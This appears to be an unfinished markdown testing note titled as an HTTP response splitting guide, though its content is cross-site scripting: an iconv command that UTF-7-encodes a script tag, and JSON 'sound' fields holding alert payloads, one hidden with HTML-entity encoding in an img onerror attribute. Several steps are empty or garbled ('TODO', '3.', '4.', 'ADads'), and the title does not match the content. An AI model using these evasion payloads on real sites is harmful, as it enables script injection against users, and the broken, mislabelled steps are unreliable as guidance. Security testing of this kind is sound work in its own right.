 # Instructions for HTTP Response Splitting testing

1. Find vulnerable target
    - See instructions: TODO
2. Create payload
   - You can encode the payload with iconv
   ```
   echo '<script>alert("XSS");</script>' | iconv -f utf-8 -t utf-7
   

   # Output
   +ADw-script+AD4-alert(+ACI-XSS+ACI)+ADsAPA-/script+AD4
   
   ```
3. 
4. 

```
echo '+ADw-script+AD4-alert(+ACI-XSS+ACI)+ADsAPA-/script+AD4' | iconv -f utf-7 -t utf-8

<script>alert("XSS");</script>
```


5. ADads

```
{
    "sound": "Blob"
}

{
    "sound": "<script>alert('Ohoi!')</script>"
}

{
    "sound": "Blub"
}

{
    "sound": "<img src=x onerror='&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041'>"
}

{
    "sound": "Blib"
}

```



































































